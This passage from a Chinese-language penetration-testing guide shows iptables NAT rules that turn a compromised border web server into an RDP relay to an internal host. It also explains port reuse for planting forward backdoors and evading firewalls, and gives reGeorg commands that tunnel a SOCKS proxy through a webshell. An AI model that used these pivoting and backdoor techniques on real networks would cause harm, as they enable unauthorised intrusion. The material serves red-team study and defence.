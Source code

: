 2、关闭服务

```bash
service iptables stop
```

3、配置规则

```bash
#需要访问的内网地址：10.1.1.11（Windows）
#内网边界web服务器：192.168.100.100（Linux）
iptables -t nat -A PREROUTING --dst 192.168.100.100 -p tcp --dport 3389 -j DNAT--to-destination 10.1.1.11:3389

iptables -t nat -A POSTROUTING --dst 10.1.1.11 -p tcp --dport 3389 -j SNAT --to-source 192.168.100.100
```

4、保存并重启服务

```bash
service iptables save && service iptables start
```

这时访问Web服务器的3389就能登录到内网机器的桌面了。

# 端口复用

> **适用场景**
>
> 需要占用一些已经开启的端口情况下（  server只对外开放指定端口，无法向外进行端口转发  、规避防火墙）
>
> 当前机器不出网不出网情况下，留正向后门
>

## reGeorg 端口复用

> 网络情况：A只能连接B主机的80端口，A无法与C进行通信，且B无法与外网进行通信 

项目地址： https://github.com/sensepost/reGeorg 

reGeorg是一个Python2.7环境下开发的一款结合Webshell进行端口复用的工具；

能够将数据通过在本地建立的Socks服务转发到内网环境 ；

reGeorg需要配合Webshell使用，并且需要一个良好的网络状况，Python环境必须安装`Urlib3`

**创建Socks5代理**

```bash
python2 reGeorgSocksProxy.py -p <本地Socks5服务监听的端口> -u <Webshell地址>
python2 reGeorgSocksProxy.py -p 8888 -u http://xxx.com/shell.jsp
```

 之后使用浏览器设置Socks代理，就能访问内网主机的端口了，或者结合 Proxifier 连接 3389 

## HTTP.sys端口复用后门

